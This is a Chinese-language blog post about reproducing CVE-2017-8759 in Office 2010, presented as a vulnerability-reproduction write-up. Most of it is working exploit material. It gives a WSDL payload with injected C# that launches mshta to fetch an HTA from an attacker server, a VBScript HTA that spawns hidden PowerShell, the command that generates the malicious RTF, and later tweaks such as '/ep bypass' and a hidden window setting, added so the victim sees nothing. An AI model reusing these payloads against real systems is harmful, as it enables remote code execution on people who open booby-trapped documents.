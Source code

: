 ```yaml
---
title: "Office CVE-2017-8759 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
tags: ['office']
categories: ['漏洞复现']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


漏洞原理移步 [安全客](https://www.anquanke.com/post/id/86833).

环境 Windows7, Office 2010.

<!--more-->

## 复现过程

[bhdresh/CVE-2017-8759](https://github.com/bhdresh/CVE-2017-8759)

搭建服务器, 创建 exploit.txt 并更改 URL.

```
<definitions
    xmlns="http://schemas.xmlsoap.org/wsdl/"
    xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
    xmlns:suds="http://www.w3.org/2000/wsdl/suds"
    xmlns:tns="http://schemas.microsoft.com/clr/ns/System"
    xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
<portType name="PortType"/>
<binding name="Binding" type="tns:PortType">
<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
<suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
</binding>
<service name="Service">
<port name="Port" binding="tns:Binding">
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
</port>
</service>
</definitions> 
```

同目录下创建 cmd.hta.

```
<html>
<head>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("powershell.exe -nop -w hidden calc.exe", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```

生成文档.

```
cve-2017-8759_toolkit.py -M gen -w test.rtf -u http://192.168.1.1:8000/exploit.txt
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801222637.png)

复现成功, 命令只执行了一次, 但这里会先闪一下 hta 的窗口.

最开始复现的时候我有两个问题: 1. 为什么要通过 hta 执行 2. 为什么不能直接在 exploit.txt 中一次执行成功而非要用 hta.

## 改进载荷

关于第一个问题, 请看代码.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
```

拼接在源文件中是这样的.

```
......
public Image()
{
    base.ConfigureProxy(this.GetType(), @"http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta");
    //base.ConfigureProxy(this.GetType(),@";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //");
}
......
```

原理中也提到了, 这是 .Net 一处拼接错误而导致的代码执行漏洞, 也就是说理论上我们能够执行任意代码.

而 xml 中的 location, 通过 ? 被分割成三个部分, 然后提取第二部分作为执行文件, 第三部分作为命令参数.

所以这个其实跟空格没有半点关系, 完全就是为了方便通过 ? 截取到命令和参数两个部分, 而第一个部分只是针对 .Net 的验证罢了, 只要符合 URL 规范就行. 之所以在这里要费劲心思截取 url 是因为 xml 语法的问题, 但 C# 的单引号只表示单个字符.

关于第二个问题, 为什么要通过 hta 执行?

如果说是针对低版本系统例如 2003, 那么其实还有很多种选择, 比如 regsvr32, regsvcs, 甚至你也可以直接通过下载 exe 来执行, 但这里访问的 hta 里执行的命令是 powershell, 那么为什么不直接一步到位呢?

前面说了, 这是代码执行漏洞, 理论上我们能够执行任意代码, 同样, 通过 Process.Start 启动的进程理论上也可以是任意文件, 比如.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\cmd.exe?/c calc.exe"/>
```

这样是能够执行成功的, 但如果换成 powershell 呢?

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?-c calc.exe"/>
```

执行失败了. 我们仔细想想这两行代码之间有什么区别, 前者的命令参数是 /c, 后者的命令参数是 -c.

推测是 - 这个字符导致命令执行不成功的, 下面就要引入一个新姿势了.

```
powershell.exe /c calc.exe
```

这是可以成功的, 适用于大部分参数.

加上一点其它东西, 那么代码就可以改成.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?/ep bypass /noprofile /w hidden /c calc.exe"/>
```

执行成功. 不过你会发现 powershell 窗口还是会一闪而过, 即使我们指定了 /w hidden, 怎么办呢?

基于 C# 的特性, 我们可以通过 System.Diagnostics.Process.StartInfo 创建一个进程并将窗口设置为 hidden, 就像这样.

```
p.FileName = _url.Split('?')[1];
p.Arguments = _url.Split('?')[2];
p.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
System.Diagnostics.Process.Start(p);
```

重新打开文档, 将会自动弹出计算器而不是先显示一遍窗口 :)

## 一些话

在写下这篇文章的时候又测试了一遍, 发现 -c 其实是可以执行成功的, 但通过带宏文档复现的时候确实是执行失败了, 只能通过 /c 方式绕过, 不过使用宏这种方式利用已经是很鸡肋的了, 还有很多比这更简单的方法.

上文中原来的 Payload 其实就是将行为和特征分离, 不过过程对我来说也算是一种尝试吧.

另外对于 rtf 的其它细节在之前的文章中已经讲过, 就不再重复说明了.